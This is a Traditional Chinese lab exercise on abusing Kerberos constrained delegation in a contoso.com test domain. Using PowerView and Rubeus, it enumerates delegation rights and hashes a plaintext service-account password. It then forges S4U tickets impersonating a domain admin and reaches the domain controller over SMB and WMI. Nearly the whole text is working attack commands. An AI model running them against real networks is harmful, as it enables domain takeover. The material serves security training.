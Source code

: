 # Exercise 5 - Kerberos Classic Delegation

## Tools

所需工具:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

在本練習中，我們將嘗試利用taskservice的委派權限偽冒任意使用者存取ad-01

首先我們先載入所需模組(Powerview.ps1、Invoke-Rubeus.ps1)

```powershell
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

列舉具有委派權限的Domain user

```powershell
Get-DomainUser -TrustedToAuth
```

查看具委派權限的Domain user是具有哪些服務的委派權限

```powershell
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```

經查看domain user `taskservice`具有三個服務的委派權限，且我們具有taskservice的明文密碼。
可利用明文密碼產生後續要發起S4U2SELF請求的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:contoso.com /user:taskservice"
```

以下指令可另外開啟一個powershell session，可不影響目前使用者(john)的kerberos ticket。

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

首先我們利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:cifs/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:host/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:rpcss/adsec-01.contoso.com /ptt"
```

列舉目前取得的kerberos ticket

```powershell
klist
```

嘗試存取ad-01的SMB服務

```powershell
ls \\ad-01.contoso.com\C$
```

嘗試利用ad-01的WMI服務列舉該電腦所有的Process

```powershell
Get-WmiObject -Class win32_process -ComputerName ad-01.contoso.com
```

